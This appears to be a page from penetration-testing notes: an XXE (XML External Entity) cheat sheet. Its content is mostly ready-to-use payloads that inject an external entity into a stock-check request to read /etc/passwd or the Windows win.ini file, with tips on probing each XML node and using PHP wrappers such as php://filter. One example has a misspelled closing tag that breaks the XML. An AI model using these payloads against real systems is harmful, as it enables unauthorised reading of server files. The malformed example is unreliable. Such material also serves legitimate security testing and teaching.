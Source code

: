 # XXE (XML External Entity)

## XXE to retrieve files

{% code title="Normal XML" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
{% endcode %}

{% tabs %}
{% tab title="#1" %}
This XXE payload defines an external entity **\&xxe;** whose value is the contents of the **/etc/passwd** file and uses the entity within the value of the **productId**.

{% hint style="info" %}
Windows payload: `file:///c:/windows/win.ini`
{% endhint %}

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
{% endtab %}

{% tab title="#2" %}
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```
{% endtab %}
{% endtabs %}

### Tips

* With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to **test each data node in the XML individually**, by making use of your defined entity and seeing whether it appears within the response. Example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <productName>Test</productName>
    <productPrice>12</procductPrice>
</stockCheck>
```

* Remember to change wrappers. [Here](../inclusion-lfi-rfi-traversal/php-wrappers.md#wrappers) is a complete list. The **php://filter** wrapper with **base64** encoding can be very useful.
